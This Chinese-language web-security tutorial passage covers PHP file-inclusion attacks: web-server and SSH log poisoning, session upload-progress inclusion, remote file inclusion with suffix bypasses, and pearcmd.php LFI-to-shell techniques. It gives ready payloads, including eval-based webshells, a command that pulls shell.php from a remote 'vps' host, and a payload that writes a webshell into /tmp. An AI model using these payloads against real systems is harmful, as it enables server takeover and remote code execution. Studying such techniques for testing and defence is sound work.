如果日志文件的位置是默认位置或者是可以通过其他方法获取，就可以通过访问日志将恶意代码写入到日志文件中去，然后通过文件包含漏洞包含日志中的恶意代码，获得权限。

利用条件:

- web中间件日志文件的存储位置已知，并且具有可读权限

对于Apache，日志存放路径：/var/log/apache/access.log

对于Ngnix，日志存放路径：/var/log/nginx/access.log 和 /var/log/nginx/error.log。Nginx中的日志分两种，一种是error.log，一种是access.log。error.log可以配置成任意级别，默认级别是error，用来记录Nginx运行期间的处理流程相关的信息；access.log指的是访问日志，用来记录服务器的接入信息（包括记录用户的IP、请求处理时间、浏览器信息等）。

在用户发起请求时，服务器会将请求写入access.log，当发生错误时将错误写入error.log

所以日志文件包含的做法有两种

- 将恶意代码直接写入日志

因为日志文件会记录我们的每一个请求的内容，例如访问假设访问URL：http://192.168.1.2/api
发现会在日志文件中有如下内容：

```csharp
[root@wanth3f1ag]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:31:20 +0800] "GET /api HTTP/1.1" 200 86....
```

这时候我们添加恶意代码

```
http://192.168.1.2/api/<?php 一句话木马?>
```

这时候再查看日志文件就会发现内容已经写入

```
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:35:23 +0800] "GET /xxx/%3C?php @eval($_POST[123]);?%3E HTTP/1.1" 404 826....
```

但是由于浏览器的URL编码功能，导致传入的代码不可用，所以我们可以通过bp抓包去进行写入，这也不会被浏览器进行URL编码

- UA头文件包含

做法:

- 传参访问日志文件目录(有时候需要目录穿越)
- 在UA头写入php代码，然后发送请求，并在日志文件中找到回显信息

这里为什么要在UA头写恶意代码呢？是因为本地日志文件可以看到nginx服务器中记录的是每次请求user-agent报文，那么我们可以通过包含nginx'服务器的日志文件，然后在user-agent服务器中写入木马语句进行注入，这也可以避免有些时候对参数进行了关键字的过滤导致不能直接传马的情况

### SSH日志文件包含

利用条件：

- SSH日志路径已知，并且具有可读权限

SSH日志文件的默认路径为`/var/log/auth.log`

**Auth 日志文件**：

- **位置**：通常在 `/var/log/auth.log` 或 `/var/log/secure`。
- **内容**：记录了认证和授权相关的信息，比如登录成功、失败、密码尝试等。

当我们发现一个本地文件包含漏洞时，可以把ssh连接的用户名写成webshell，然后包含/var/log/auth.log获取服务器权限：

```
ssh '<?php eval($_GET['k']); ?>'@172.18.101.100
```

访问http://192.168.1.1?file=/var/log/auth.log&k=whoami发现成功执行

## session文件包含

### Session的工作原理

在PHP中，Session是用来保存用户数据的一种方式。当使用session_start()函数初始化Session时，PHP会在服务器上的特定路径下创建一个Session文件。这个路径可以在php.ini文件中通过`session.save_path`指定。Session文件通常以`sess_`为前缀，后面跟着一个Session ID。当用户再次访问网站时，服务器会通过这个Session ID来找到对应的Session文件，并加载其中的数据。

利用条件

session文件包含的利用条件有两个：

- Session的存储位置可以获取
- Session的内容可控

一般通过以下两种方式获取session的存储位置：

- 通过phpinfo的信息获取session的存储位置。
  通过phpinfo的信息获取`session.save_path`
- 通过猜测默认的session存储位置进行尝试
  通常Linux中的Session的默认存储位置在`/var/lib/php/session`目录下

session常见存储路径:

```
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
session文件格式:sess_[phpsessid],而phpsessid在发送的请求的cookie字段中可以看到。
```

我们先看一下在php.ini中的几个关于session的配置

`session.upload_progress.enabled = on`

- **说明**：启用上传进度功能。当设置为 `on` 时，PHP 将允许在文件上传过程中追踪进度。需要与其他相关配置一起使用。

`session.upload_progress.cleanup = on`

- **说明**：启用上传进度的清理功能。当设置为 `on` 时，PHP 会在上传完成后自动清理与上传进度相关的临时 Session 数据。这样可以防止过多的进度信息占用内存。

`session.upload_progress.prefix = "upload_progress_"`

- **说明**：设置上传进度 Session 变量的前缀。PHP 会创建一个以该前缀开头的 Session 变量来存储上传进度信息。默认情况下，上传进度变量的名称会是 `upload_progress_[session_id]` 的形式。

`session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"`

- **说明**：设置用于访问上传进度信息的 Session 变量的名称。默认情况下，这个名称是 `PHP_SESSION_UPLOAD_PROGRESS`，可以在 JavaScript 或其他客户端代码中使用该名称来获取上传进度。

`session.upload_progress.freq = "1%"`

- **说明**：设置上传进度更新的频率。该选项指定了上传进度的信息更新频率，值为 `1%` 表示每当上传进度达到 1% 时，PHP 会更新进度信息。可以设置为更高的比例，以减少 Session 的更新次数。

`session.upload_progress.min_freq = "1"`

- **说明**：设置更新进度信息的最小频率（以秒为单位）。设置为 `1` 表示每秒至少更新一次上传进度信息。此选项可以帮助控制频繁更新所带来的性能开销。

**`enabled=on`表示`upload_progress`功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中** 

### 如何创建session文件呢。

如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

但session还有一个默认选项，`session.use_strict_mode=Off`，这个配置决定了我们是否可以随意更改session，如果这个配置是打开的，比如，服务器端给的`PHPSESSID=wang`,此时我们**在Cookie里更改PHPSESSID=zhang**，服务端那边是不会认的,生成的文件是sess_wang。但例如这个配置关闭的话，我们就可以抓包更改PHPSESSID=zhang，此时在临时目录下就会生成sess_zhang临时文件。

同时上面也讲过了**SESSION_UPLOAD_PROGRESS**，既然session会被存储到临时文件中且又会往session文件中写入内容，那么如果我们能控制写入的内容，就能往目标主机上写马了，再配合文件包含漏洞就可以达到我们想要的效果。

事实上**SESSION_UPLOAD_PROGRESS**会把post的内容写入到session文件,通过控制post的内容即可写马

那么问题就来了,为什么不直接往session文件里面写马?因为虽然我们能控制session文件的名字,但是我们并不能控制它的内容,只能使用**SESSION_UPLOAD_PROGRESS**去实现.

如果存在本地文件包含漏洞，就可以通过传参写入恶意代码到Session文件当中去，然后通过文件包含漏洞执行rce

### **攻击步骤**

- 将恶意代码写入PHP_SESSION_UPLOAD_PROGRESS下
- 攻击者可以通过PHPinfo或者猜测到session存放的位置
- 通过开发者模式可以获得文件名称
- 通过本地文件包含漏洞可以解析session文件达到攻击的目的

`cleanup=on`表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要

如果session.upload_progress.cleanup被打开了,这就意味着**SESSION_UPLOAD_PROGRESS**往session中被写入的内容会被即时清除,这时候我们就需要利用利用PHP_SESSION_UPLOAD_PROGRESS加条件竞争进行文件包含

## 无限制远程文件包含

无限制远程文件包含是指包含文件的位置并不在本地服务器，而是通过URL的形式包含到其他服务器上的文件，以及执行文件中的恶意代码

利用条件

```
allow_url_fopen=on
allow_url_include=on
```

接下来我们看一下怎么实现的

首先在本地的web目录中创建一个php文件

```php
//1.php
<?php
	$file=$_GET['file'];
	include $file;
?>
```

然后在我们的云服务器上的web目录同样创建一个php文件

```php
//1.php
<?php phpinfo(); ?>
```

然后进行远程包含

```
http://127.0.0.1/1.php?file=http://156.238.233.87/1.php
```



成功包含，如果把服务器中的文件后缀改成其他的也是一样可以当成php代码去执行的

## 有限制远程文件包含

有限制的远程文件包含是代码中存在特定的前缀和后缀.php /.html 等拓展名过滤的时候，攻击者需要绕过前缀或者拓展名过滤，才能远程执行URL代码

通常有限制的远程文件包含可以通过问号、井号、空格绕过

### 通过问号绕过

可以在问号后面添加html字符串，问号后面的拓展名会被当做查询，从而绕过过滤

```
http://127.0.0.1/1.php?file=http://156.238.233.87/1.php?
```

### 通过井号绕过

可以在#后面添加HTML字符串，#会截断后面的拓展名，从而绕过拓展名过滤.#的URL编码为%23

```
http://127.0.0.1/1.php?file=http://156.238.233.87/1.php%23
```

### 通过空格绕过

```
http://www.abc.com/file.php?filename=http://192.168.2.1/php.txt%20
```

## 利用pearcmd.php从LFI到getshell

条件:register_argc_argv=On



pear可以用来拉取远程的代码

```
pear install -R /tmp http://vps/shell.php
```

假如我的vps上有一个文件shell.php

```php
<?php
echo "aaa";
?>
```

如果你远程服务器中/var/www/html中php代码可以被解析，那么你使用pear拉取到的shell.php就是

```
aaa
```

如果远程服务器上的php没有被解析，拉取到的shell.php就是

```php
<?php
echo "aaa";
?>
```

所以，**当执行了pear后，会将$_SERVER[‘argv’]当作参数执行！如果存在文件包含漏洞的话，就可以包含pearcmd.php，拉取远程服务器上的文件到靶机，再通过文件包含获取shell。**

如果靶机出网

```php
//test.php
<?php
include($_GET['file']);
?>
```

我们尝试拉取远程服务器的shell.php到靶机的/tmp目录下

payload

```
http://localhost/test.php?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://vps/shell.php
//shell就是我们的一句话木马
```

然后文件包含shell.php同时传参cmd即可

解释payload

- **`?file=/usr/local/lib/php/pearcmd.php`**
  - 指定 `pearcmd.php` 文件的路径。
  - `pearcmd.php` 是 PEAR（PHP 扩展和应用库）的命令行工具。
- **`&+install+-R+/tmp+http://vps/shell.php`**
  - 这是 `pearcmd.php` 的 `install` 命令的参数。
  - `install`：安装指定的包。
  - `-R /tmp`：将安装的文件保存到 `/tmp` 目录。
  - `http://vps/shell.php`：从远程服务器下载的恶意文件。

如果靶机不出网，我们可以写一句话木马进hello.php

```
http://localhost/test.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1]);?>+/tmp/hello.php
```

解释payload

- **`?+config-create+`**
  - 这是 PHP 的 `pearcmd.php` 工具的一个参数，用于创建配置文件。
  - `pearcmd.php` 是 PEAR（PHP 扩展和应用库）的命令行工具。
- **`/&file=/usr/local/lib/php/pearcmd.php&/`**
  - 指定 `pearcmd.php` 文件的路径。
  - 如果服务器上存在 `pearcmd.php`，这段代码会尝试调用它。
- **`<?=eval($_POST[1])?>`**
  - 这是一个 PHP 短标签，用于执行 `eval($_POST[1])`。
  - `eval` 函数会执行传入的 PHP 代码，`$_POST[1]` 是从 POST 请求中获取的参数。
  - 这段代码的目的是将恶意 PHP 代码写入目标文件。
- **`+/tmp/hello.php`**
  - 指定目标文件的路径，即 `/tmp/hello.php`。
  - 如果攻击成功，恶意代码会被写入该文件。

后来看了p牛的文章才知道`$SERVER`并不认为&符号是参数的分隔符，而是将+号作为分隔符

注意:在传参的时候不能用hackbar，因为`<`和`>`会被hackbar编码而不会生效
